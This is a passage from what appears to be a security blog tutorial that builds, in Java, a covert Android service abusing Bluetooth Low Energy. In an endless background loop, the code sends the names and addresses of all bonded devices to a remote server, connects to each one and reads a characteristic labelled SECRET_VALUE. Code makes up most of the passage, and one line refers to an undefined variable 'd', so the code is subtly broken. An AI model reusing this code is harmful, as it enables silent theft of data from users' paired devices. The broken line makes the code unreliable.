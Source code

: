 {% endhighlight %}

At this moment it does nothing. Important parts are lines 3, 4 and 5, which defines UUIDs of a previously set up BLE service and peripherals. Such UUIDs may be identified by reverse engineering a legitimate app or analyzing a target device, but it's not necessary, as Bluetooth API lists all available services and characteristics.

- [BluetoothGatt#discoverServices()](https://developer.android.com/reference/android/bluetooth/BluetoothGatt#discoverServices())
- [BluetoothGatt#getServices()](https://developer.android.com/reference/android/bluetooth/BluetoothGatt.html#getServices())

When the class skeleton is completed, let's implement *onHandleIntent* method.

{% highlight java %}
protected void onHandleIntent(@Nullable Intent intent) {
    BluetoothManager bluetoothManager = (BluetoothManager) getSystemService(Context.BLUETOOTH_SERVICE);
    BluetoothAdapter bluetoothAdapter = bluetoothManager.getAdapter();
    while (true) {
        sleep(10 * 1000);
        for (final BluetoothDevice device : bluetoothAdapter.getBondedDevices()) {
            sendToServer("Device: " + device.getName() + " | " + device.getAddress());
            BluetoothGatt gatt = d.connectGatt(this, true, new MyCallback());
            sleep(15 * 1000);
            gatt.disconnect();
        }
    }	
}
{% endhighlight %}

In every iteration of the infinite loop we get a list of all devices bonded in the system (line 5). Then, iterating over the list, each device's name and address are sent to the server. The code also tries to connect to each device, passing in an instance of *MyCallback*. This object handles connection related events and will be responsible for reading from and writing to characteristics. As this operations will be executed asynchronously, we give them 15 seconds to complete before disconnection.

The main loop is finished, let's move on to *MyCallback* class. Three methods will be involved in our workflow.

{% highlight java %}
@Override
public void onConnectionStateChange(BluetoothGatt gatt, int status, int newState) {
    if (newState == BluetoothGatt.STATE_CONNECTED && !discover) {
        gatt.discoverServices();
        discover = true;
    }
}
{% endhighlight %}

The first one will be called on successful connection with a device, so we could start discovering services.

{% highlight java %}
@Override
public void onServicesDiscovered(BluetoothGatt gatt, int status) {
    if (status == BluetoothGatt.GATT_SUCCESS && !read) {
        BluetoothGattService service = gatt.getService(SERVICE);
        if (service != null) {
            BluetoothGattCharacteristic characteristic = service.getCharacteristic(SECRET_VALUE);
            if (characteristic != null) {
                read = gatt.readCharacteristic(characteristic);
            }
        }
    }
}
{% endhighlight %}
